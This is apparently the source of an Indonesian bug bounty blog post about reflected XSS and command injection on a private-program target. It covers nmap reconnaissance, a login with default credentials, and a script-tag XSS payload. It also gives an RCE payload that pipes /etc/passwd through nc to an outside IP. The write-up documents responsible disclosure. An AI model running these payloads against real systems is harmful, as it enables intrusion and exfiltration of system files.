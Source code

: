 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS On Private Program Cyber Army ID"
date: 2019-02-14
tags: BugBounty
---
```


### <b>Prolog</b>
Lagi naik KRL dari Tangerang-Jakarta, sambil main HP tiba-tiba ada email undangan private program di [Cyber Army](https://www.cyberarmy.id/),langsung cuz klik terima. Malamnya gw lihat detail programnya, disana diberikan 2 alamat yang masuk dalam scope, yaitu  sub.[redacted].id dan subdomain.[redacted].id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.
- 4 XSS
- 2 RCE

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap sub.[redacted].id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/1.png?raw=true">
</div>


Saat saya buka sub.[redacted].id:8010, disana terdapat form login yang diketahui credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

### POC :
- Script : https://pastebin.com/raw/zZN1pfSY

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/2.png?raw=true">
</div>



### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/3.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc XXX.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/4.png?raw=true">
</div>

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/5.png?raw=true">
</div>



- 12 February Send Report
- 13 February Validation
- 14 February disclose
- Rewarded


### <b>Reference:</b>
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f

### <b>Thanks:</b>
- Ngesec
- Surabaya Hacker Link
- You!